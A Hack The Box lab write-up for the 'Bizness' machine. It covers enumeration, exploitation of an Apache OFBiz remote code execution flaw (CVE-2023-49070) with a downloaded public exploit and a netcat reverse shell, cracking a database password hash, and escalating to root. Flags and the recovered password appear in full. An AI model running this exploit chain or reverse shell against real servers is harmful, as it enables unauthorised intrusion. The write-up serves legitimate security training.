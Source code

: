  
# Bizness

<p align="center">
  <img src="https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/b394bd03-e005-41b0-bb83-60f236f052d4" />
</p>



Embrace the dawn of a fresh season as we unveil the latest additions to the gaming arena. Welcome to the exhilarating Season 4, where innovation and excitement collide. Leading the charge is the formidable Bizness, a dynamic machine that promises both challenge and reward. Boasting a lucrative 20-point bounty and an accessible easy difficulty level, Bizness beckons all daring adventurers. Without further ado, let's dive headfirst into the world of opportunities and embark on a thrilling journey – it's time to engage in some serious 'bizness'!

## Table of Contents

- [Setting the Stage](#setting-the-stage)
- [Enumeration with Nmap](#enumeration-with-nmap)
- [Exploring the Vast Horizons of the Web](#exploring-the-vast-horizons-of-the-web)
- [Art of Exploitation: Navigating Security Challenges](#art-of-exploitation-navigating-security-challenges)
- [User Flag](#user-flag)
- [Privilege Escalation: Elevating System Access Safely](#privilege-escalation-elevating-system-access-safely)
- [CVE-2023-49070](#cve-2023-49070)
- [Conclusion](#conclusion)




## Setting the Stage 
Before delving into the intricacies, our initial step involves the addition of the IP and domain to the crucial /etc/hosts file. This crucial setup ensures that the IP is recognized, laying the foundation for seamless interactions. Execute the command 'sudo nano /etc/hosts' to initiate this imperative configuration.

```bash
echo "10.10.11.252 bizness.htb" | sudo tee -a /etc/hosts 
```

## Enumeration with Nmap
Nmap serves as the indispensable compass, unveiling the intricacies of system architecture and potential vulnerabilities with its versatile commands

```bash
nmap -Pn -sC -sV 10.10.11.252
```
As we initiate enumeration, a preliminary port scan discloses the accessibility of ports 22, 80, and 443.
![Bizness](https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/2e2cdf84-96c0-453e-acf2-083c71d1a947)


## Exploring the Vast Horizons of the Web:
Now let’s move to the next step for enumeration. Let’s use dirsearch tool to search for other endpoints.

```bash
sudo apt-get install dirsearch
dirsearch -u https://bizness.htb -e*
```

After using dirsearch we get login endpoints.

After doing directory enumeration we see there directory of /control/login 
![Bizness Login](https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/681a5c2c-5923-4f93-9446-aaf5add44414)


## Art of Exploitation: Navigating Security Challenges:
"Upon entering the login page, it becomes evident that the system employs the Apache OFBiz web framework. Subsequent investigation yielded the following insights."



_There Vulnerability of ofbiz-CVE-2023–49070-RCE-POC_

- Link of exploitation: — https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/tree/main?tab=readme-ov-file


```bash
sudo update-alternatives — config java

use “ 1 /usr/lib/jvm/java-11-openjdk-amd64/bin/java 1111 manual mode”
```

Further exploration revealed....
```bash
wget https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar
```

```bash
wget https://raw.githubusercontent.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/main/exploit.py
```

Now we see that we can execute any command by using the above exploit . So, we try to get reverse shell.

## Executing the Payload:

```bash
python3 exploit.py https://bizness.htb/ shell ip:4444
```

Subsequently, execute on a second terminal.
```bash
nc -lnvp 4444
```


then you will get user shell ....

## User Flag:

Upon successfully obtaining the reverse shell, navigating directories became a challenge. Fret not, as I've got you covered. Change the directory to /home/ofbiz, where you'll find a text file named user.txt. Simply execute 'cat' on the file, and voila! You've secured the user flag. 


```bash
ofbiz@bizness:/opt/ofbiz$ cd /home/ofbiz
cd /home/ofbiz
ofbiz@bizness:~$ ls
ls
user.txt
ofbiz@bizness:~$ cat user.txt
cat user.txt
d96f0aefb0311de8c1da1c174db554d7
```


We successfully secured the User flag as 'd96f0aefb0311de8c1da1c174db554d7' However, the journey to the root flag is yet to be completed. No need to worry, though—I've got your back.

Upon investigation, we uncovered the Derby database and a hash: '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2IYNN.' Breaking it down, '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2IYNN' signifies the use of the SHA-1 hashing algorithm ('$SHA$'), 'd' for salt, and the remaining string as the hashed value. Let's dive deeper into the data to uncover the next steps.


## Privilege Escalation: Elevating System Access Safely 

Execute this Python script to decode the SHA-1 hash.
Decode File Required : [Decode.py](10.10.11.252/decode.py)

```bash
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2IYNN
```
```bash
python3 decode.py
```

After successfully decoding the SHA-1 hash with the provided Python script, the revelation of the password 'monkeybizness' marks a pivotal moment in our journey. Leveraging this newfound credential, we elevate our privileges by executing 'su' and entering the passphrase. Transitioning into the root directory, we discover the existence of a file named 'root.txt.' As we delve into its contents, the triumphant sight of the root flag brings our exploration to a gratifying conclusion. This process underscores the significance of careful navigation and strategic execution in the realm of privilege escalation, culminating in the attainment of the ultimate access level .

```bash
password :  'monkeybizness'
```

cat root.txt you will get root password.
```

ofbiz@bizness:~$ su root
su root
Password: monkeybizness

ls
user.txt
cd /root
ls
root.txt
cat root.txt
41b08f62f103ded31455f3f3a8be5cde

```

 <hr>
 </hr>

## CVE-2023-49070

 Pre-auth RCE in Apache Ofbiz 18.12.09. It's due to XML-RPC no longer maintained still present. This issue affects Apache OFBiz: before 18.12.10.  Users are recommended to upgrade to version 18.12.10

 Reference :  
 - https://nvd.nist.gov/vuln/detail/CVE-2023-49070
 - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-49070
 

<p align="center">
   <a href="https://www.hackthebox.com/achievement/machine/672066/582" >
  <img src="https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/6c750e80-d65b-4a0b-91f2-d67192dffee9" align="center" alt="Bizness-htb pwnd by Mr.Govind" />
   <a/>
</p>


## Conclusion

In conclusion, the exploration of Bizness showcased the integration of meticulous enumeration, vulnerability exploitation, and privilege escalation techniques. From the initial setup to the triumphant acquisition of the root flag, each step contributed to a comprehensive understanding of the machine's security landscape. The journey emphasized the importance of strategic thinking and demonstrated the successful navigation of challenges inherent in ethical hacking. As we bring this exploration to a close, it stands as a testament to the continuous learning and adaptability required in the dynamic field of cybersecurity. 
